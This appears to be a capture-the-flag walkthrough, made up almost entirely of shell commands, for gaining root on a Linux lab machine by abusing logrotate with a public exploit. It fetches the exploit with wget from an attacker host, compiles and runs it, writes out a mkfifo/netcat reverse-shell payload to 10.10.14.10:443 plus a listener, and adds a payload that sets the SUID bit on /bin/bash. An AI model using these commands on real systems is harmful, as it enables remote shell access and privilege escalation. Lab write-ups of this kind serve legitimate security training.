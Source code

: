 > **Attacker Machine**:

```bash
 searchsploit -x linux/local/47466.c
```

> **Victime Machine**:

```bash
/dev/shm/procmon.sh | grep logrotate
ls -la /home/reader/backups
```

> **Attacker Machine**:

```bash
searchsploit -m linux/local/47466.c
mv 47466.c exploit.c
nvim exploit.c
python3 -m http.server 80
```

> **Victime Machine**:

```bash
which gcc
wget http://10.10.14.10/exploit.c
gcc -o exploit exploit.c
chmod +x exploit
./exploit
# -p  --payloadfile <file>   File that contains the payload

echo '#!/bin/bash' > payload
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 443 >/tmp/f' >> payload
cat !$
```

> **payload**:

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 443 >/tmp/f
```

```bash
./exploit -p ./payload /home/reader/backups/access.log
```

> **Attacker Machine**:

```bash
nc -nlvp 443

ssh -i id_rsa reader@10.10.10.176
```

> **Victime Machine**:

```bash
cd ~/backups
echo 'oldboy was here' >> access.log

echo '#!/bin/bash' > payload
echo 'chmod u+s /bin/bash' >> payload
cat !$
```

